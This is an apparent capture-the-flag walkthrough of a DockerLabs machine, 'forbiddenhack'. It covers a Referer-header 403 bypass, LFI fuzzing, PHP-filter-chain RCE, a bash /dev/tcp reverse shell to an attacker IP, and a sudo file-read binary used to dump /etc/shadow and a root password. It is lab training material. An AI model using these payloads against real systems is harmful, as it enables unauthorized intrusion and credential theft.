


# forbiddenhack

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| forbiddenhack | d1se0 | easy/facil | dockerlabs |

**Summary:** The forbiddenhack machine was a layered web exploitation challenge built around a 403 bypass via a `Referer` header, a Local File Inclusion vulnerability escalated to RCE through a PHP filter chain, and a custom binary `furb` with arbitrary file-read capability that ultimately disclosed the root password. The web server served the default Apache page but was configured with a virtual host `bypass403.pw` that returned 403 for all requests lacking a matching `Referer` header. Setting `Referer: http://bypass403.pw/` in curl unlocked a 200 response. The accessible page had a `pages` parameter vulnerable to LFI, identified by fuzzing the query string with ffuf while forwarding the bypass header and filtering the 1192-byte baseline response size. Reading `/etc/passwd` via the LFI confirmed the username `bambi`. The LFI was escalated to RCE using a PHP filter chain generated by `php-filter-chain-generator`, which synthesised a `system()` webshell payload entirely from `php://filter` encoding gadgets without writing any file to disk. RCE was confirmed as `www-data` and a URL-encoded bash reverse shell was delivered through the `cmd` parameter. The TTY was stabilised using `script`. As `www-data`, the user flag and a base64-encoded credential for `bambi` were recovered from `/home/bambi/.secret/interestingSecret.txt`. Decoding it yielded `supersecretpassword123`. As `bambi`, a `sudo -l` check revealed passwordless access to `/usr/bin/furb`. Analysing its `strings` output exposed the `-r` file-read flag via the error string `Error: Missing file argument for -r`. A hint file at `/var/backups/furbRead.txt` pointed to the existence of `/root/furbRead.txt`. Running `sudo furb -r /root/furbRead.txt` disclosed the root password `StrongPasswordRootSuperSecret123` in plaintext. `su - root` completed the escalation and the root flag was captured.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ sudo bash auto_deploy.sh forbiddenhack.tar 
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-30 19:50 +0700
Nmap scan report for gatekeeperhr.com (172.17.0.2)
Host is up (0.0000080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 66:14:FC:00:06:4C (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.64 seconds
```

Only port 80 was open. The Apache default page was served, indicating a virtual host configuration. The machine name pointed toward `bypass403.pw`, which was added to `/etc/hosts`.

---

## Initial Access

### 403 Bypass via Referer Header

**3. Inspecting the Web Application**

Browsing the target revealed the 403 bypass challenge and the virtual host.



**4. Adding the Virtual Host**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ echo "$ip bypass403.pw" | sudo tee -a /etc/hosts
[sudo] password for ouba: 
172.17.0.2 bypass403.pw
```

**5. Bypassing the 403 with the Referer Header**

A curl request with `Referer: http://bypass403.pw/` returned a 200 response, unlocking the application.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ curl -v http://bypass403.pw/ -H "Referer: http://bypass403.pw/"
* Host bypass403.pw:80 was resolved.
* IPv6: (none)
* IPv4: 172.17.0.2
*   Trying 172.17.0.2:80...
* Established connection to bypass403.pw (172.17.0.2 port 80) from 172.17.0.1 port 54116 
* using HTTP/1.x
> GET / HTTP/1.1
> Host: bypass403.pw
> User-Agent: curl/8.20.0
> Accept: */*
> Referer: http://bypass403.pw/
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Thu, 30 Jul 2026 12:59:18 GMT
< Server: Apache/2.4.58 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 1192
< Content-Type: text/html; charset=UTF-8
< 
    <!DOCTYPE html>
    <html lang="es">
    <head>
        <meta charset="UTF-8">
        <title>403 Forbidden Conseguido!</title>
        <style>
            body {
                font-family: Arial, sans-serif;
                background-color: #1e1e1e;
                color: #f1f1f1;
                display: flex;
                flex-direction: column;
                align-items: center;
                justify-content: center;
                height: 100vh;
            }
            .container {
                text-align: center;
            }
            .flag {
                font-size: 1.5rem;
                margin-top: 20px;
                background: #111;
                padding: 15px;
                border: 2px dashed #0f0;
                color: #0f0;
            }
        </style>
    </head>
    <body>
        <div class="container">
            <h1>  By d1se0</h1>
            <p>Nadie que este autorizado puede visualizar esta pagina, lo tenemos protegido con un 403 Forbidden.</p>
            <p>Explorar lo es todo, piensa y explora.</p>
            <div class="flag">Cuantos secretos guarda esta web...</div>
        </div>
    </body>
    </html>
* Connection #0 to host bypass403.pw:80 left intact
```

### LFI Parameter Discovery

**6. Fuzzing the Query Parameter for LFI**

ffuf was used to fuzz the query parameter while forwarding the `Referer` header and filtering the 1192-byte baseline, using `/etc/passwd` as the test target.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ ffuf -u  "http://bypass403.pw/?FUZZ=/etc/passwd" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -H "Referer: http://bypass403.pw/" -ic -fs 1192

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bypass403.pw/?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Header           : Referer: http://bypass403.pw/
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1192
________________________________________________

pages                   [Status: 200, Size: 888, Words: 3, Lines: 20, Duration: 14ms]
```

The parameter `pages` was identified. A 888-byte response for `?pages=/etc/passwd` confirmed the LFI.

**7. Reading /etc/passwd via LFI**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ curl -H "Referer: http://bypass403.pw" "http://bypass403.pw/?pages=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
bambi:x:1001:1001:bambi,,,:/home/bambi:/bin/bash
```

The username `bambi` was disclosed.

### PHP Filter Chain RCE

**8. Generating the Filter Chain and Confirming RCE**

The tool `php-filter-chain-generator` (from `https://github.com/synacktiv/php_filter_chain_generator.git`) was used to escalate the LFI to RCE by synthesising a `system()` webshell entirely through `php://filter` encoding gadgets — no file write needed.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ which php-filter-chain-generator
/usr/local/bin/php-filter-chain-generator
```

The generated chain was passed to the `pages` parameter alongside `&cmd=id`. The full chain generation and RCE confirmation are shown below.



### Delivering the Reverse Shell

**9. URL-Encoding and Sending the Shell Payload**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ urlencode "bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F4444%200%3E%261%27


┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ curl -H "Referer: http://bypass403.pw" "http://bypass403.pw/index.php?pages=....php://temp&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F4444%200%3E%261%27" --output -
```

**10. Catching the Shell and Stabilising the TTY**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 42304
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@e27a51c6ab58:/var/www/bypass403.pw$ which script
which script
/usr/bin/script
www-data@e27a51c6ab58:/var/www/bypass403.pw$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
www-data@e27a51c6ab58:/var/www/bypass403.pw$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@e27a51c6ab58:/var/www/bypass403.pw$ export TERM=xterm
www-data@e27a51c6ab58:/var/www/bypass403.pw$ export SHELL=/bin/bash
www-data@e27a51c6ab58:/var/www/bypass403.pw$ stty rows 80 cols 130
```

A stable TTY shell was obtained as `www-data`.

---

## Lateral Movement

**11. Enumerating bambi's Home Directory and Recovering Credentials**

```bash
www-data@e27a51c6ab58:/home/bambi$ ls -la
total 28
drwxr-xr-x 3 bambi bambi 4096 Jun 10  2025 .
drwxr-xr-x 1 root  root  4096 Jun 10  2025 ..
lrwxrwxrwx 1 root  root     9 Jun 10  2025 .bash_history -> /dev/null
-rw-r--r-- 1 bambi bambi  220 Jun 10  2025 .bash_logout
-rw-r--r-- 1 bambi bambi 3771 Jun 10  2025 .bashrc
-rw-r--r-- 1 bambi bambi  807 Jun 10  2025 .profile
drwxr-xr-x 2 root  root  4096 Jun 10  2025 .secret
-rw-r--r-- 1 root  root    33 Jun 10  2025 user.txt
www-data@e27a51c6ab58:/home/bambi$ cat user.txt 
770[REDACTED]
www-data@e27a51c6ab58:/home/bambi$ cat .secret/interestingSecret.txt 
bambi:c3VwZXJzZWNyZXRwYXNzd29yZDEyMw
```

The base64-encoded password was decoded on the attacker machine.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/forbiddenhack]
└─$ echo 'c3VwZXJzZWNyZXRwYXNzd29yZDEyMw' | base64 -d
supersecretpassword123  
```

The credential pair was `bambi:supersecretpassword123`. Access as `bambi` was established.

```bash
bambi@e27a51c6ab58:~$ id;whoami;hostname
uid=1001(bambi) gid=1001(bambi) groups=1001(bambi),100(users)
bambi
e27a51c6ab58
```

---

## Privilege Escalation

### Custom Binary furb with File-Read Capability

**12. Checking sudo Permissions and Inspecting furb**

```bash
bambi@e27a51c6ab58:~$ sudo -l
Matching Defaults entries for bambi on e27a51c6ab58:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bambi may run the following commands on e27a51c6ab58:
    (ALL : ALL) NOPASSWD: /usr/bin/furb
bambi@e27a51c6ab58:~$ which ss netstat file strings 
/usr/bin/strings
bambi@e27a51c6ab58:~$ ls -la /usr/bin/furb
-rwxr-xr-x 1 root root 16544 Jun 10  2025 /usr/bin/furb
```

A hint file at `/var/backups/furbRead.txt` was examined, asking where else a file named `furbRead` could be found — pointing toward `/root/furbRead.txt`.

```bash
bambi@e27a51c6ab58:~$ ls -la /var/backups/
total 16
drwxr-xr-x 1 root root 4096 Jun 10  2025 .
drwxr-xr-x 1 root root 4096 Jun 10  2025 ..
-rw-r--r-- 1 root root   65 Jun 10  2025 furbRead.txt
bambi@e27a51c6ab58:~$ cat /var/backups/furbRead.txt 
Interesante este nombre de archivo, donde mas puede encontrarse?
```

**13. Analysing the furb Binary with strings**

```bash
bambi@e27a51c6ab58:~$ strings /usr/bin/furb
/lib64/ld-linux-x86-64.so.2
puts
perror
__stack_chk_fail
fread
fopen
stdout
__libc_start_main
stderr
fprintf
__cxa_finalize
fclose
fwrite
strcmp
libc.so.6
GLIBC_2.4
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
furb version 1.0
Usage:
  furb --help        Show this help message
  furb --version     Show version information
  furb --list        List installed items
furb 1.0 - Build 2025.06
Installed modules:
 - furb-core
 - furb-net
 - furb-ctl
Error opening file
--help
--version
--list
Error: Missing file argument for -r
Unknown parameter: %s
9*3$"
GCC: (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0
Scrt1.o
__abi_tag
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
furb.c
__FRAME_END__
_DYNAMIC
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_start_main@GLIBC_2.34
list_dummy_info
_ITM_deregisterTMCloneTable
stdout@GLIBC_2.2.5
puts@GLIBC_2.2.5
fread@GLIBC_2.2.5
_edata
print_version
fclose@GLIBC_2.2.5
_fini
__stack_chk_fail@GLIBC_2.4
__data_start
strcmp@GLIBC_2.2.5
fprintf@GLIBC_2.2.5
__gmon_start__
__dso_handle
_IO_stdin_used
read_file
_end
__bss_start
main
fopen@GLIBC_2.2.5
perror@GLIBC_2.2.5
print_help
fwrite@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@GLIBC_2.2.5
_init
stderr@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

The string `Error: Missing file argument for -r` and the symbol `read_file` confirmed that `furb` accepted a `-r` flag to read arbitrary files. Since the binary ran as root via sudo, it could read any file on the system.

**14. Reading /etc/shadow and the Root Password File**

```bash
bambi@e27a51c6ab58:~$ sudo -u root /usr/bin/furb -r /etc/shadow
root:$y$j9T$djr/6OzFs5YQBGkXwyusg0$OJCmQMUtPM.g1Jw/6wVW9ZSEgHfnZq5EW6mPRygleO/:20249:0:99999:7:::
daemon:*:20237:0:99999:7:::
bin:*:20237:0:99999:7:::
sys:*:20237:0:99999:7:::
sync:*:20237:0:99999:7:::
games:*:20237:0:99999:7:::
man:*:20237:0:99999:7:::
lp:*:20237:0:99999:7:::
mail:*:20237:0:99999:7:::
news:*:20237:0:99999:7:::
uucp:*:20237:0:99999:7:::
proxy:*:20237:0:99999:7:::
www-data:*:20237:0:99999:7:::
backup:*:20237:0:99999:7:::
list:*:20237:0:99999:7:::
irc:*:20237:0:99999:7:::
_apt:*:20237:0:99999:7:::
nobody:*:20237:0:99999:7:::
bambi:$y$j9T$r/nmv1Fl0wMa/zmw2HmP91$DEcAUEemN/paeO/sO0nMG05p6YvjKLcVpbTV3qvRC1D:20249:0:99999:7:::
bambi@e27a51c6ab58:~$ sudo -u root /usr/bin/furb -r /root/furbRead.txt
StrongPasswordRootSuperSecret123
```

The root password `StrongPasswordRootSuperSecret123` was disclosed in plaintext directly from `/root/furbRead.txt`.

**15. Escalating to Root**

```bash
bambi@e27a51c6ab58:~$ su - root
Password: 
root@e27a51c6ab58:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
e27a51c6ab58
root@e27a51c6ab58:~# ls -la
total 28
drwx------ 1 root root 4096 Jun 10  2025 .
drwxr-xr-x 1 root root 4096 Jul 30 14:48 ..
-rw-r--r-- 1 root root 3106 Apr 22  2024 .bashrc
drwxr-xr-x 3 root root 4096 Jun 10  2025 .local
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
-rw-r--r-- 1 root root   33 Jun 10  2025 furbRead.txt
-rw-r--r-- 1 root root   33 Jun 10  2025 root.txt
root@e27a51c6ab58:~# cat root.txt 
cde[REDACTED]
```

Full root access was achieved and the root flag was captured.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified only port 80. The Apache default page was served, but the machine's name pointed to the virtual host `bypass403.pw`, added to `/etc/hosts`. All requests returned 403 until a matching `Referer: http://bypass403.pw/` header was supplied, unlocking a 200 response.
2. **Vulnerability Discovery**: ffuf was used to fuzz the query parameter name while forwarding the `Referer` bypass header and filtering the 1192-byte baseline. The parameter `pages` was identified as an LFI vector. Reading `/etc/passwd` confirmed the username `bambi`.
3. **Exploitation**: The LFI was escalated to RCE using `php-filter-chain-generator`, which synthesised a `system()` webshell via `php://filter` encoding gadgets without any file write. RCE was confirmed as `www-data` and a reverse shell was delivered via a URL-encoded bash payload. The TTY was stabilised with `script`.
4. **Internal Enumeration**: As `www-data`, `bambi`'s `.secret/interestingSecret.txt` contained a base64-encoded credential decoding to `supersecretpassword123`. Access as `bambi` was established.
5. **Privilege Escalation**: A `sudo -l` check revealed passwordless access to `/usr/bin/furb` as root. `strings` analysis exposed the `-r` file-read flag. A hint file at `/var/backups/furbRead.txt` pointed to `/root/furbRead.txt`. Running `sudo furb -r /root/furbRead.txt` disclosed the root password `StrongPasswordRootSuperSecret123`. `su - root` completed the escalation and the root flag was captured.
